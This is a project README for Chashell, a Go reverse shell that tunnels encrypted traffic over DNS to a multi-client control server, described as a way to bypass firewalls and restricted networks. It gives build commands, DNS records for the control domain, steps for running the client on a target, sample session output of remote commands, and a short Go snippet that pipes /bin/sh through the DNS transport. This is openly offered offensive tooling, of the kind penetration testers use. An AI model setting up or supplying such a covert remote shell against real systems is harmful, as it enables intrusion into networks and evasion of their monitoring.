

# Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicate using DNS. 
It can be used to bypass firewall or heavy restricted networks.

It comes with a multi-client control server named *chaserv*.


### Communication security

Every packets are encrypted using symetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)) with a shared key between the client
and the server.

Asymmetric cryptography is **planned**.

### Protocol

Chashell communicate using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. The .proto file is available in the **proto** folder.

Here is a (simplified) communication chart :



Keep in mind that every packets are encrypted, hex-encoded and then packed for DNS.

### Supported systems

All desktop systems (Windows, Linux, Darwin, BSD variants) supported by the Go compiler should work.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)


### How to use Chaserv/Chashell

#### Building

Build all the binaries (change the domain_name and the encryption_key) :


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Building for a specific platform :

```
$ make build-all OSARCH="linux/arm"
```

Building the server only :

```
$ make build-server
```

Building the client (chashell) only :

```
$ make build-client
```

#### DNS Settings

* Buy/use a domain name of your choice (small if possible).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

* Run chaserv on the control server.
* Run chashell on the target computer.

The client should now appear on chaserv :

```
[n.chatelain]$ sudo ./chaserv
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

On the server, use the chaserv binary.
For the client (or the target), use the chashell binary.

## Implement your own

The *chashell/lib/transport* is compatible with the *io.Reader* / *io.Writer* interface. So, implementing a reverse shell is easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the hostname using the InfoPacket message.
* Create a "proxy/relay" tool in order to tunnel TCP/UDP streams. (Meterpreter over DNS !)